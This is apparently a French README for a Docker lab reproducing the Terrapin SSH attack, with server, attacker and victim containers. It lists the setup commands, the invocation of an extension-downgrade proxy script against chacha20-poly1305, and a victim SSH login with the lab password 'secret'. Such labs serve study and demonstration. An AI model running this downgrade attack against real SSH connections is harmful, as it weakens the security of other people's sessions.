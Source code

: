 # commandes

## Démarage

### lancement des conteneurs :
`docker-compose up -d`

`docker-compose ps`

### récupération des ip du serveur et de l'attaquant (pour lancer le script)
`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' terrapin-attack_serveur_1`
`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' terrapin-attack_attaquant_1`

## Lancement de 3 terminal diff

### terminal server
`docker logs terrapin-attack_serveur_1 -f`

### terminal attaquant
`docker attach terrapin-attack_serveur_1`
```
python3 ext-downgrade/ext_downgrade_chacha20_poly1305.py \
    --proxy-ip {ip_attaquant} \
    --server-ip {ip_serveur}
```

### terminal victime
`docker attach terrapin-attack_victime_1`
`PATH="$PATH:/install/bin/"`
`ssh victim@172.24.0.2 -vvv -o Ciphers=chacha20-poly1305@openssh.com` (passwd is 'secret')

